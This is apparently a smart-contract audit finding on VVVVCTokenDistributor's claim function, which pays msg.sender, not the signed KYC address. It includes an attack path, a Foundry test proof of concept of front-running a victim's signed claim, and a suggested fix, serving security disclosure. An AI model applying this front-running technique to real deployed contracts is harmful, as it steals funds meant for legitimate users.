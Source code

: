 ## Summary
No access control or msg.sender validation allows an attacker to front-run honest claim calls to steal funds that are meant for the KYC'd address that the signature is signed for. This is due to the claim function sending funds to the `msg.sender`

## Root Cause
In `VVVVCTokenDistributor.sol::106` there are no implemented access control or validation to make sure that the `msg.sender` is the KYC address that this signature was signed for. This function directly sends the funds to the `msg.sender`

```solidity
function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```
## Internal pre-conditions
No response

## External pre-conditions
Trusted off-chain system must create a valid signature for a KYC'd user to claim
## Attack Path
Assume Bob is the KYC'd user that has tokens to claim and Alice is the attacker.

The trusted off-chain system creates a valid signature for Bob to claim his tokens with `claim` function, giving Bob the correct `ClaimParams memory _params` to input.
Bob calls the `claim`  function with the given `ClaimParams memory _params`.
Alice notices this transaction and front-runs it, calling the `claim` function with the exact same parameters.
Alice's claim call goes through first.
Nonce check in the `claim` function passes for Alice's call as it is the first call.
```solidity
        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }
```
```solidity
_isSignatureValid check passes as these parameters have been signed by the trusted off-chain system.
        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }
```
Function updates KYC addresses nonce.
```solidity
        nonces[_params.kycAddress] = _params.nonce;
```
Function sends the funds to `msg.sender(Alice)` in the following for loop.
```solidity
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }
```
Alice's transaction finalizes successfully.
```solidity
Bob's transaction starts executing and it reverts at the nonce check due to Alice's transaction updating the nonce.
        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }
```
## Impact
Attacker steals funds that are meant to be claimed by a KYC'd user.

## PoC
In the `VVVVCTestBase.sol` implement a new address to imitate an attacker.
```solidity
    uint256 sampleAttackerKey = 1234567812;
    address sampleAttacker = vm.addr(sampleAttackerKey);
```
Implement and run a new test in the `VVVVCTokenDistributor.unit.t.sol`
```solidity
    function testClaimSingleRoundFrontRunAttack() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        //Attacker claim with params signed for KYC'd address
        claimAsUser(sampleAttacker, claimParams);
        //Expect revert with InvalidNonce() for KYC'd address' claim 
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        claimAsUser(sampleKycAddress, claimParams);
        
        // Assertions
        assertTrue(ProjectTokenInstance.balanceOf(sampleAttacker) == claimAmount);
        assertEq(ProjectTokenInstance.balanceOf(sampleAttacker), ProjectTokenInstance.balanceOf(sampleKycAddress) + claimAmount);
    }
```
Test runs successfully and assertions prove that the attacker has stolen funds that are meant for the `sampleKycAddress`

## Mitigation
Send the funds to the signed address `(_params.kycAddress)`, an example of this is shown below.
```solidity
    function claim(ClaimParams memory _params) public {
        // rest of the function
        
        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                _params.KycAddress, // changed line here
                _params.tokenAmountsToClaim[i]
            );
        }
        
        //rest of the function
}
```
